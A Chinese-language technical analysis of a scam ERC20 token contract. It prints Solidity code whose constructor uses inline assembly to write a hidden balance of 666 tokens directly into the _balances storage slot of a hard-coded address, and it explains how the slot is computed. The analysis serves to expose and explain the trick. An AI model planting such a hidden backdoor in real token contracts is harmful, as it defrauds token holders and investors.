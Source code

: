 在 **`Solidity`**  的内联汇编语言中，**`mload`**  和 **`mstore`**是用于读取和写入内存变量的指令。这两条指令操作的内存大小也都是固定的 32 个字节。

## 简化代码分析

有了上面的知识，我们来分析一下这段代码：

```solidity
contract TokenIEGT is ERC20 {
    // 构造函数
    constructor() ERC20("IEGT","IEGT") {
        _pathSet(); // 调用恶意代码
    }

    // 恶意代码
    function _pathSet() private {
        assembly {
            let y := 0x17F6AD8Ef982297579C203069C1DbfFE4348c372

            mstore(0, y)
            mstore(32, 0)
            
            sstore(keccak256(0, 64), 666) 
        }      
     }
}
```

第一句：给变量 **`y`** ，赋值了一个地址。

第二句：**`mstore(0,y)`**  的意思是将数值 **`y`** 存储到内存位置为 0 的地方，占据 32 个字节。其实就是把地址 **`0x17F6AD8Ef982297579C203069C1DbfFE4348c372`** 写进去，不足的位置都补 0。

第三句：**`mstore(32, 0)`**  的意思是将数值 0 存储到内存位置为 32 个字节的地方，占据 32 个字节。也就是内存中从 32 字节开始，写入 32 个字节的 0。

第四句：**`sstore`**  这句代码的意思是将数值 666 写到一个特定位置的插槽中。这个特定位置是通过 **`keccak256(0, 64)`**  计算得到的。**`keccak256(0, 64)`**  是计算了内存中从 0 到 64 字节的数据的哈希值。内存中从 0 到 64 字节的数据，其实就是第二句和第三句写入内存的数据合并在一起。它的内容是：

```solidity
00000000000000000000000017F6AD8Ef982297579C203069C1DbfFE4348c372
0000000000000000000000000000000000000000000000000000000000000000
```

它的长度是64个字节。也就是对这个 64 字节数据进行哈希，得到的结果值作为存储位置，将 666 存进去。

问题其实就出在这个语句上。**`keccak256`**  语句计算出来的插槽位置，其实就是合约中状态变量 **`_balances`**  里的一个数据存储位置。

**`_balances`**  是在它的 父合约 中定义的变量，是一个 **`mapping 类型的数据。因为继承关系，当前合约也拥有了这个变量  _balances`** 。

**`_balances`**  就是 **`ERC20`**  代币合约中存放所有地址余额的变量。你只要修改了这里面的数据，那么对应的地址里代币的余额就修改了。

**`_balances`**  是一个状态变量，也就是说，它的数据存储在插槽里。由于它在合约里定义的位置在最前面，所以它被存储在第一个插槽 slot 0。

**`mapping`**  里存储的键值对是动态的，它可以有任意多个。它们并不跟 **`mapping`**  存放在一起，而是要通过 **`keccak256`** 计算，来决定到底该存放到哪一个位置。

计算公式就是 **`keccak256(address . slot)`**，其中 **`address . slot`** ，是指把 **`address`** 和槽位拼接在一起。

比如 **`_balances`** 槽位 **`slot`** 等于 0，**`address`** 是 **`0x17F6AD8Ef982297579C203069C1DbfFE4348c372`**。那么，**`keccak256(address . slot)`**，实际上就是 **`_balances[0x17F6AD8Ef982297579C203069C1DbfFE4348c372]`** 的数据存储位置。
